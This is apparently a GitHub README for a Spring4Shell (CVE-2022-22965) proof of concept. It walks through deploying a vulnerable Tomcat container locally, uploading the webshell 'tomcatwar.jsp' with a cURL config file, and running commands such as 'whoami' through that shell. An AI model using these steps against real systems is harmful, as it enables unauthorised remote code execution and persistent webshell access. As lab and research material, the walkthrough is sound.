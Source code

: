 # Spring4Shell-cURL
Weaponzing cURL configs to exploit Spring4Shell (CVE-2022-22965)


## cURL? Really?
Yup. I hadn't seen this method posted anywhere, so just wanted to document. Most of the heavy lifting had already been done, I just put my own twist on things. 


### Quick Setup

1. Clone the repo. You'll need Docker and cURL.

2. Deploy the Docker container:  

```
docker image build -t retro/stupidrumor . && docker container run -it --publish 8080:8080 retro/stupidrumor
```

3. Use cURL to upload your WAR. The following command will read from the local `requests.txt` file. It contains request configurations we want cURL to use, namely the specific headers we need to prime the application for exploitation. You'll notice the last line `data-binary = "@body.txt"` too, which is the local file containing our POST body:

```
curl --config request.txt http://localhost:8080/stupidRumor_war/index
``` 
   
**Note:** I've included proxy support within the cURL configs, so we can send our requests through a transparent application proxy (Burp). This happens over port 8081, so make sure to adjust accordingly. This is mostly for troubleshooting, but handy to have in your Repeater nonetheless :)
   
4. Once the cURL command is sent, the webshell `tomcatwar.jsp` will be uploaded to the webroot at `stupidRumor_war/`. If you want, you can access the shell in a browser.

5. But we're using cURL, so issue the second request to run your commands:  

```
curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -
``` 

## In Action
   
![image](https://user-images.githubusercontent.com/13237617/161151879-3cf326ad-6610-4bfe-992d-1d03279e6da5.png)

   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
